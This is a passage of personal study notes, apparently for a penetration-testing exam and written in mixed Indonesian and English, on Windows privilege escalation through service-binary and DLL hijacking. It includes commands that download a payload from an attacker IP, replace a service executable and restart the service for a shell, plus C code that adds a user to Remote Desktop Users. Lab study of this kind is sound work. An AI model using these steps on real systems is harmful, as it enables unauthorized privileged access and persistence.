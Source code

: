 7. check the Startup Type of the targeted service
```cmd
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<nama_servicenya>'}
ex:
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```
8. Buat rebooting machine, kita butuh privilege `SeShutDownPrivilege`
```cmd
whoami /priv
```
>> Kalo Disabled, jgn khawatir. "The Disabled state only indicates if the privilege is currently enabled for the running process. In our case, it means that whoami has not requested and is not currently using the SeShutdownPrivilege privilege."

9. Reboot mesinnya
```cmd
shutdown /r /t 0
```
10. Boom! tinggal relogin, runas pake akun yg baru, atau sekalian aja tambahin usernya ke group RDP di payloadnya.
```c (adduser.c, additional)
i = system ("net localgroup \"Remote Desktop Users\" dave2 /add");
```

Notes from VM2.

1. icacls C:\BackupMonitor\BackupMonitor.exe
>> Permission kita di situ cuma RX, gk bisa apa-apa.
>> Tapi NT AUTHORITY\Authenticated Users:(I)(M)  punya permission M (Modify Access)
>> setelah cek `whoami /groups` kita member dari NT AUTHORITY\Authenticated Users

Apa itu (M)? Modify.
 "Modify" permission. This permission allows users to **read, write, execute, and delete** the file"

2. As usual
```cmd
iwr 192.168.45.168:8000/pay.exe -outfile pay.exe
move C:\BackupMonitor\BackupMonitor.exe C:\BackupMonitor\BackupMonitor.exe_original
move .\pay.exe C:\BackupMonitor\BackupMonitor.exe
```
3. Restart service
```cmd
net stop BackupMonitor
net start BackupMonitor
```
4. Dapet shell. Hm.. OKELAH POKOKNYA SELALU COBA HIJACK SERVICE BINARY DI LOCATION SUSPICIOUS EVENTHOUGH RX AJA. 


## Service DLL Hijacking (DLL Hijacking, dllhijacking, DLLHIJACKING) [PENTING] #IMPORTANT

> Tips buat exam:
	- KUNCINYA ADALAH: **SUSPICIOUS BINARY WITH (RX) PERMISSION**
	- Kalo lu udah yakin ada DLL Injection krn g ada vektor lain. Unlikely bisa pake procmon di mesinnya. Download dan Reverse engineer aja.
	- Taro dllnya di directory .exe servicenya. (Ikutin dll search order)
> `strings EnterpriseService.exe | grep "dll"` >> LIAT CAPSTONE WINDOWS PRIVESC.
> ATO GK CHECK LOG OR CLUE SEKITAR.
